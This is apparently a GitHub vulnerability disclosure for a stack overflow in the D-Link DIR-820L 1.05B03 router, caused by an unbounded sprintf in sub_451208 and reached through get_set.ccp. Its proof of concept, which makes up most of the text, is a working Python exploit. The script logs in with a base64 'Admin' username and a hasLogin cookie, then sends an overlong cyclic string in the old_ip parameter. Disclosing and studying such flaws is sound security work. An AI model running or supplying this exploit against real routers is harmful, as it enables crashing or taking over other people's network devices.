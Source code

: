 **Router model: DIR-820L**

**Firmware version: 1.05B03**


# Vulnerability introduction

A stack overflow vulnerability exists in the sub_451208 function of D-Link DIR-820L 1.05B03.

# Vulnerability analysis

In its callback_ccp_get_set() function, pcVar10 is the ccp_act value passed in

![image](https://github.com/user-attachments/assets/996934d1-fb36-45cb-96de-8fc38da2a6b1)


When ccp_act = set is set, sub_451208 is called

![image](https://github.com/user-attachments/assets/faeca5c1-36be-4c72-914a-b3fe0e144a92)

Within the sub_451208 function, by obtaining a series of parameter values, sprintf will be used to assign values ​​without setting the buffer length, causing overflow.

![image](https://github.com/user-attachments/assets/29bbbab4-4e61-433e-af02-dfb02e632b86)

![image](https://github.com/user-attachments/assets/27903ba6-8d71-45c6-a680-eef36e794a2f)


# POC
![image](https://github.com/user-attachments/assets/4e092493-bc47-447d-808c-dc3c66fed4a7)

![image](https://github.com/user-attachments/assets/2fb5c8fc-1365-45e6-93d9-ba402b71f503)



```python
import requests

login_url = 'http://192.168.0.1/login.ccp'
headers = {
    'Host': '192.168.0.1',
    'Content-Length': '122',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.0.1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://192.168.0.1/',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Cookie': 'hasLogin=1',
    'Connection': 'close'
}
data = {
    'html_response_page': 'login.asp',
    'login_name': '',
    'login_pass': '',
    'username': 'QWRtaW4A',
    'password': '',
    'graph_id': '',
    'alert_id': '',
    'log_pass': '',
    'graph_code': ''
}
response = requests.post(login_url, headers=headers, data=data)
print(response.text)


url = 'http://192.168.0.1/get_set.ccp'
headers = {
    'Host': '192.168.0.1',
    'Content-Length': '1064',
    'Accept': 'application/xml, text/xml, */*; q=0.01',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.0.1',
    'Referer': 'http://192.168.0.1/lan.asp',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Cookie': 'hasLogin=1',
    'Connection': 'close'
}
data = {
    'ccp_act': 'set',
    'old_ip': 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac',
    'old_mask': '255.255.255.0',
    'new_ip': '192.168.0.1',
    'new_mask': '255.255.255.0',
    'nextPage': 'lan.asp',
}
response = requests.post(url, headers=headers, data=data)
print(response.text)
```
